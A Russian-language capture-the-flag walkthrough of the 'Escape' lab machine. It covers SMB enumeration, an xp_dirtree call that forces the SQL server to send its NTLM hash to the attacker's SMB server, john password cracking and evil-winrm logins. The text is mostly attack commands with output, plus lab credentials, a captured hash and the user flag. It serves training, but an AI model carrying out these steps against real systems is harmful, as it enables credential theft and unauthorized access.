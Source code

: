 # Walkthrough Escape Machine
## Разведка

```sh
sudo nmap -sC -sV -Pn 10.10.11.202
```

По умолчанию, smbclient использует порт 445/TCP для подключения к службе SMB на удаленном хосте. В результате сканирования можно увидеть
```sh
445/tcp  open  microsoft-ds?
```
Что, скорее всего, означает, что на этом порту запущена SMB служба.
```sh
smbclient -L ////10.10.11.202//
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Public          Disk      
	SYSVOL          Disk      Logon server share 
```
Нам интересен ресурс Public, так как он доступен всем пользователям. Зайдем, посмотрим, какие есть файлы и скачаем потенциально нужный к себе.

```sh
smbclient //10.10.11.202/Public
Password for [WORKGROUP\pavel]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 14:51:25 2022
  ..                                  D        0  Sat Nov 19 14:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 16:39:43 2022

		5184255 blocks of size 4096. 1450723 blocks available
smb: \> get "SQL Server Procedures.pdf"
getting file \SQL Server Procedures.pdf of size 49551 as SQL Server Procedures.pdf (53.2 KiloBytes/sec) (average 53.2 KiloBytes/sec)
```

В файле есть подсказка "For new hired and those that are still waiting their users", в которой есть данные для доступа в бд.
> For new hired and those that are still waiting their users to be created and perms assigned, can sneak a peek at the Database with user PublicUser and password GuestUserCantWrite1 .

Посмотрим и увидим в нашем начальном скане, что запущен SQL сервер на 1433 порту:
```sh
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
```

Для выполнения SQL-атак очень удобно использовать утилиту mssqlclient и responder, но под рукой на M2 работающее было sqlcmd и smbserver, эффект тот же.

```sh
smbserver.py -smb2support share .
```
В другом шелле:
```sh
export SQLCMDPASSWORD=GuestUserCantWrite1
sqlcmd -S 10.10.11.202 -U PublicUser
1> EXEC xp_dirtree "\\10.10.14.239\paszi\"
2> go
subdirectory                                                                                                                                                                                                                                                         depth      
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- -----------

(0 rows affected)

```

На что получаем NTLM-Hash в smbserver

> sql_svc::sequel:aaaaaaaaaaaaaaaa:30f4b1fca4ba1013a1eb5d938cf02007:0101000000000000801dd4ffd76cd9019e61b4ecbe5cdbd900000000010010007700720077006e005100690042005100030010007700720077006e00510069004200510002001000480076007a006a004a0069007500710004001000480076007a006a004a0069007500710007000800801dd4ffd76cd90106000400020000000800300030000000000000000000000000300000b06953a40e73f7dcd7c20260b1485241836863a90aa065eda453ec4452d7865f0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003200330039000000000000000000

Для перевода хеша в пароль я буду использовать john, сохранив хеш выше в файл.
```sh
john hash.txt "/Users/pavel/Desktop/study/htb/Escape/SecLists/Passwords/Leaked-Databases/rockyou.txt"

REGGIE1234ronnie (sql_svc)
```

Заходим на сервер с помощью новых данных
```sh
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```
Покопавшись, можно найти C:\SQLServer\Logs\ERRORLOG.BAK

В котором есть логи о неправильно введенных credentials (данных):
Ryan.Cooper:NuclearMosquito3


> 2022-11-18 13:43:07.44 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]

Перелогинимся и находим user.txt на десктопе.
```sh
evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
...
    Directory: C:\Users\Ryan.Cooper\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/12/2023  12:33 AM           3409 cert.pfx
-a----        4/12/2023  12:32 AM         174080 certify.exe
-a----        4/12/2023  12:54 AM          73802 glrn.exe
-a----        4/12/2023  12:34 AM         446976 Rubeus.exe
-ar---        4/12/2023  12:24 AM             34 user.txt

*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> cat user.txt
a9d3cca182eb9de43b1316fdef8d775e
...
```

